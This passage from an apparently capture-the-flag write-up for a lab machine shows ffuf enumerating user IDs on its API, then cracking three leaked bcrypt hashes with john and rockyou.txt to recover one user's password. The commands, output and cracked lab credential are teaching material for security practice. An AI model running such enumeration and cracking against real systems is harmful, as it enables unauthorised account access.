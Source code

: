 
I’ll also confirm that no other users show up this way with `ffuf`:

    
    
    oxdf@hacky$ ffuf -w <( seq 1 1000 ) -u http://rainycloud.htb/api/user/FUZZ.0 -fs 3
    
            /'___\  /'___\           /'___\       
           /\ \__/ /\ \__/  __  __  /\ \__/       
           \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
            \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
             \ \_\   \ \_\  \ \____/  \ \_\       
              \/_/    \/_/   \/___/    \/_/       
    
           v1.5.0
    ________________________________________________
    
     :: Method           : GET
     :: URL              : http://rainycloud.htb/api/user/FUZZ.0
     :: Wordlist         : FUZZ: /dev/fd/63
     :: Follow redirects : false
     :: Calibration      : false
     :: Timeout          : 10
     :: Threads          : 40
     :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
     :: Filter           : Response size: 3
    ________________________________________________
    
    1                       [Status: 200, Size: 101, Words: 1, Lines: 2, Duration: 96ms]
    2                       [Status: 200, Size: 101, Words: 1, Lines: 2, Duration: 171ms]
    3                       [Status: 200, Size: 101, Words: 1, Lines: 2, Duration: 203ms]
    :: Progress: [1000/1000] :: Job [1/1] :: 364 req/sec :: Duration: [0:00:03] :: Errors: 0 ::
    

#### Crack Hashes

I’ll save the hashes into a file:

    
    
    jack:$2a$10$bit.DrTClexd4.wVpTQYb.FpxdGFNPdsVX8fjFYknhDwSxNJh.O.O
    root:$2a$05$FESATmlY4G7zlxoXBKLxA.kYpZx8rLXb2lMjz3SInN4vbkK82na5W
    gary:$2b$12$WTik5.ucdomZhgsX6U/.meSgr14LcpWXsCA0KxldEw8kksUtDuAuG
    

Feeding these into `john` along with `rockyou.txt`, it cracks one of the
passwords in about four minutes:

    
    
    oxdf@hacky$ john hashes --wordlist=/usr/share/wordlists/rockyou.txt
    Using default input encoding: UTF-8
    Loaded 3 password hashes with 3 different salts (bcrypt [Blowfish 32/64 X3])
    Loaded hashes with cost 1 (iteration count) varying from 32 to 4096
    Will run 4 OpenMP threads
    Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
    rubberducky      (gary) 
    ...[snip]...
    